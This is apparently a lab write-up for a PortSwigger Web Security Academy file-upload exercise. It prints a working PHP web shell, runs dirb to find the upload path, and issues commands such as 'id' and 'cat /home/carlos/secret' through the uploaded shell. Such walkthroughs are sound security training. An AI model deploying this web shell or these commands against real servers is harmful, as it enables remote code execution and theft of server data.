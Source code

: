 ## Welcome, my friend. Today we will start the [1. File Upload lab](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload) in ```portswigger```

# Explain this Scenario:

# Exploiting unrestricted file uploads to deploy a web shell

## 1. What is the worst security scenario?
#### When a website allows you to upload files that contain server code, such as ```PHP```, ```Java```, or ```Python``` files, and the site is set up to execute this code as software, it poses a significant risk.

## 2. What is a web interface?
#### A Web Shell is a malicious script that allows an attacker to execute arbitrary commands on a remote web server just by sending HTTP requests to the appropriate point.

## 3. What could an attacker do if they could load the web interface?
#### If you can load the web interface successfully, it means you have full control of the server. You could:

##### 1. Read and write random files.
##### 2. Extracting sensitive data.
##### 3. Using the server to carry out attacks against the internal network infrastructure or other servers outside the network.

## 4. Example of a simple web interface using PHP:
#### If you are using a PHP web interface, you can use a script like this to read files from the server's file system:

```
<?php echo file_get_contents('/path/to/target/file'); ?>
```

or 

```
<?php echo file_get_contents('/path/to/target/file'); ?>
```

<?php
    echo system($_GET["cmd"]);
?>

### When you upload this script to the server, you can send a request to this malicious file, and the server will respond with the contents of the target file.




# Let's play this lab:

![image](https://github.com/user-attachments/assets/7506bd9f-ec1f-4975-819e-159b262c852d)


#### Let's log in to your own account using the following credentials: ```wiener:peter```


![image](https://github.com/user-attachments/assets/1d856fbf-32ac-465c-bbe6-3d9c9f882250)


#### Let's create a php malicious payload in file ```tor1.php```:

### within tor1.php:

```
<?php
    echo system($_GET["tor"]);
?>
```

![image](https://github.com/user-attachments/assets/295203de-7776-489e-b02f-df7db4e826ee)


### Now, Let's upload this malicious payload to server.

![image](https://github.com/user-attachments/assets/03b2432e-bf45-4ce5-8288-8dee4cbee46e)

#### WOW! The file has been uploaded successfully.

### That server is very nice because it also tells us where our beautiful file is. We just have to go to that path ```/avatars/tor1.php```.

![image](https://github.com/user-attachments/assets/95418d52-94e1-45d4-afbf-9b7609d8127f)

#### But This path was not complete, but there was a path before it


#### To find out the full path, we can use tools such as ```derb``` to discover hidden directory, or we can use ```burp Suite``` and wander around the site and explore paths that are hidden or unknown to us.

#### Using dirb tool:

```
dirb https://0a43006f03b23e5d84a947a8009b0083.web-security-academy.net
```


![image](https://github.com/user-attachments/assets/eda964d8-c388-41ce-953e-fb992c386a76)


### Great we discover ```/files```  How about we explore more of that path?

```
dirb https://0a43006f03b23e5d84a947a8009b0083.web-security-academy.net/files
```

![image](https://github.com/user-attachments/assets/bf135c5f-c88b-4f7f-8cf3-0be3bd931016)

## Well, our file is uploaded in this path ```/files/avatars/tor1.php```

#### Using burp suite tool:

![image](https://github.com/user-attachments/assets/454a051f-c063-49e4-bcff-ee4f669c0399)

### Well, You can use the methods that you find easy for you.


#### Ok , Let's go to this path ```files/avatars/tor1.php```. But it ```won't work```, we'll know why now.

![image](https://github.com/user-attachments/assets/aa881ec4-8d8f-48aa-897b-cb6d98dcbade)

#### The reason is that we forgot to include the ```tor``` parameter.

```
/files/avatars/tor1.php?tor=id
```

![image](https://github.com/user-attachments/assets/035e4ba4-610d-47a7-8028-fdf2fceedb5b)

#### Ok this task requrie reach to /home/carlos/secret file.

![image](https://github.com/user-attachments/assets/877440f3-b7cb-42c5-a6a6-077435f9bb74)


```
/files/avatars/tor1.php?tor=cat /home/carlos/secret
```

![image](https://github.com/user-attachments/assets/2f1a44d6-5fa0-4266-b588-8dc3c54393e4)

#### alert: this secret is douple, copy single secret only.
### Let's Submit this secret using the button provided in the lab banner. 

![image](https://github.com/user-attachments/assets/ea0199d0-ecaf-46fc-b826-d0f80818814a)

## Then ...

![image](https://github.com/user-attachments/assets/5ffbebf9-faab-4678-8e50-2d84d78d028a)


### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ee5963aa-ad3b-4118-8dae-82a31f1ca479" >
</p>





